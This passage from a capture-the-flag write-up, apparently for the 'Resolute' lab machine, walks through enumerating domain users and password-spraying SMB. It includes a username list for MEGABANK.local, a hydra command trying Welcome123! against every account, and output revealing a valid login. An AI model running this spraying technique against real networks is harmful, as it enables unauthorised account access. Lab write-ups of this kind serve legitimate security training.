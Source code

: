 ```
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie       Name: (null)    Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita       Name: (null)    Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf  Name: (null)    Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach Name: (null)    Desc: (null)
```

We can see that about midway, a user with the name marko created a password with Welcome123!. I tried to access the workgroup with `Marko` and `Welcome123!` using smbclient but was not granted access, seems like Marko does not use the password Welcome123!.

It did, however, pull a list of usernames that could access the domain 'MEGABANK.local'

```
Administrator
DefaultAccount
krbtgt
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```

Appending all the usernames to a file called names.txt, I was able to throw hydra against the ip with the custom wordlist and the password.

```
$ hydra -L /root/Downloads/resolute/names.txt -p Welcome123! 10.10.10.169 smb
```
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-20 18:50:16
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 26 login tries (l:26/p:1), ~26 tries per task
[DATA] attacking smb://10.10.10.169:445/
[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-20 18:50:36
```
